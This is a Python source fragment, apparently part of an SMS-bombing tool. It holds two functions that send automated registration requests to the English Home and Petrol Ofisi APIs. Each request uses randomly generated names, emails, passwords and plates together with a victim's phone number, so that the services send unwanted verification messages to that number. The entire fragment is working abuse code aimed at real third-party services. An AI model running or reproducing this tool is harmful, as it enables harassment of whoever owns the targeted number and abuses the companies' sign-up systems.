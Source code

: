 def englishhome(number):
    try:
        url = "https://www.englishhome.com:443/enh_app/users/registration/"
        payload = {
            "first_name": f"{''.join(random.choices(string.ascii_lowercase, k=8))}",
            "last_name": f"{''.join(random.choices(string.ascii_lowercase, k=8))}",
            "email": f"{''.join(random.choices(string.ascii_lowercase + string.digits, k=16))}@gmail.com",
            "phone": f"0{number}",
            "password": f"{''.join(random.choices(string.ascii_lowercase + string.digits + string.ascii_uppercase, k=8))}",
            "email_allowed": False,
            "sms_allowed": False,
            "confirm": True,
            "tom_pay_allowed": True
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 202:
            return True, "English Home"
        else:
            return False, "English Home"
    except:
        return False, "English Home"

def petrolofisi(number):
    try:
        url = "https://mobilapi.petrolofisi.com.tr:443/api/auth/register"
        payload = {
            "approvedContractVersion": "v1",
            "approvedKvkkVersion": "v1",
            "contractPermission": True,
            "deviceId": "",
            "etkContactPermission": True,
            "kvkkPermission": True,
            "mobilePhone": f"0{number}",
            "name": f"{''.join(random.choices(string.ascii_lowercase, k=8))}",
            "plate": f"{str(random.randrange(1, 81)).zfill(2)}{''.join(random.choices(string.ascii_uppercase, k=3))}{str(random.randrange(1, 999)).zfill(3)}",
            "positiveCard": "",
            "referenceCode": "",
            "surname": f"{''.join(random.choices(string.ascii_lowercase, k=8))}"
        }
        headers = {
            "X-Channel": "IOS"
        }
        r = requests.post(url=url, headers=headers, json=payload, timeout=5)
        if r.status_code == 204:
            return True, "Petrol Ofisi"
        else:
            return False, "Petrol Ofisi"
    except:
        return False, "Petrol Ofisi"
